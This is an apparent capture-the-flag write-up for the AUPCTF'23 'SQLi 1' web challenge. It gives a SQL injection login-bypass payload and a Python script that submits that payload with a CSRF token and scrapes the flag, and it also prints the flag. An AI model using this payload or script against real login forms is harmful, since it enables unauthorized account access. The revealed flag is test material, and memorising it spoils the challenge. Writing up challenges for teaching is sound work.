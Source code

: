 ```yaml
---
title: AUPCTF'23 - Web - SQLi 1
date: '2023-06-25'
tags: ['ctf', 'web', 'aupctf', 'sqli', 'login-bypass']
draft: false
summary: Basic SQL Injection to bypass login
---
```


## Solution

We're given the following URL to work with:

```js
https://challs.aupctf.live/sqli-1/
```

Upon visiting the URL, we're greeted with a login page:

![Login Page](/static/writeups/aupctf/web/sqli1.png)

Now, since we already know that the challenge is of `SQLi`, we can try random payloads, the most common one I use in `beginner-friendly ctfs` is:

```sql
' OR 1 -- -
```

And, it works!

![Login Page](/static/writeups/aupctf/web/sqli1_flag.png)

As you might've already guessed by know how much I love `python`, I wrote a script to automate this. Similar to [Conundrum](/blog/writeups/aupctf/web/conundrum/), we need to send the data to the login page and we have a `csrfmiddlewaretoken`, so we will use the same script, but change the username password to the payload:

```py
import requests
import re

url = "https://challs.aupctf.live/sqli-1/"

sess = requests.Session()

username = "' OR 1 -- -"
password = "' OR 1 -- -"

print("[*] Extracting the CSRF Token", end='')
sess.get(url)
csrftoken = sess.cookies.get('csrftoken')
print(f" : {csrftoken}")

r = sess.post(
	url,
	headers = {
		'Referer' : url
	},
	data = {
		'csrfmiddlewaretoken' : csrftoken,
		'username' : username,
		'password' : password
	}
)
flag = re.findall("<h2>(.*?)</h2>", r.text)[0]
print(f"Flag: {flag}")
```

And, we get the flag:
Flag: `aupCTF{3a5y-sql-1nj3cti0n}`
